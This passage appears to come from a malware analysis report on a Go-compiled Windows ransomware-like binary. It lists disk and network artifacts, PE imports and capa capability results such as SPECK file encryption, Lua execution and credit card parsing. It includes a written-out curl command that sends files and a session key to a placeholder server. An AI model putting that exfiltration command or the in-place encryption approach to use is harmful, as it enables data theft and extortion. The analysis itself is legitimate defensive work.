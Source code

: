 ### Disk Artifacts

* Files: `target_file_list.log`, `target_file_info.log`, `target_file_summary.log`, `payloads.txt`, `scan.log`, `sysinfo_summary.txt`, `decryptor.txt`, `debug_conversations`
* File access pattern: open targets in `rb+`, process 1024-byte chunks, encrypt 8-byte blocks (SPECK ECB), rewrite in place

### Network Artifacts

* User-Agent: Go net/http (`Go-http-client/2.0`)
* Protocols: HTTP/2, multipart/form-data
* Exfil POST format: `curl -k -X POST "<server>" -F "session_key=<key>" -F "file=@<filename>"`

### Behavioral Observations

* Lua code generation & execution (GopherLua)
* Possible `os.execute`/`io.popen`-like invocation layers (agent-driven or Lua runtime)
* In-place file overwrite & console/file operations typical in Go runtimes

---

## Static Analysis (PE / Imports)

* PE32+ amd64, Windows CUI; HIGH\_ENTROPY\_VA, DYNAMIC\_BASE, NX\_COMPAT
* Import Table: `kernel32.dll` only — indicative of statically-linked Go runtime resolving APIs dynamically via `GetProcAddress`

  * Notable imports: WriteFile, WriteConsoleW, VirtualAlloc/Free/Query, LoadLibraryW/ExW, GetProcAddress, CreateThread, CreateEventA, CreateIoCompletionPort, PostQueuedCompletionStatus, GetQueuedCompletionStatusEx, SetWaitableTimer/CreateWaitableTimerExW, SwitchToThread, SuspendThread/ResumeThread, AddVectoredExceptionHandler/ContinueHandler, SetConsoleCtrlHandler

---

## capa Results (Capabilities)

* Compiler/Linking:

  * Compiled with Go; linked with wolfSSL
* Data encoding & crypto:

  * Base64 (23), XOR (43), ADD/XOR/SUB encoder (PlugX-like sequence)
  * AES (incl. AES-NI), RC4 (3), Salsa/ChaCha (5)
  * HMAC (2), SHA256/384/512; FNV (21), Murmur3 (5)
* Collection:

  * Credit card parsing (4 matches) — strong indicator of PII targeting
* HTTP client:

  * HTTP status checks (2)

These capabilities align with the exfil/encryption storyline and extend it with additional crypto/hashing support.

---
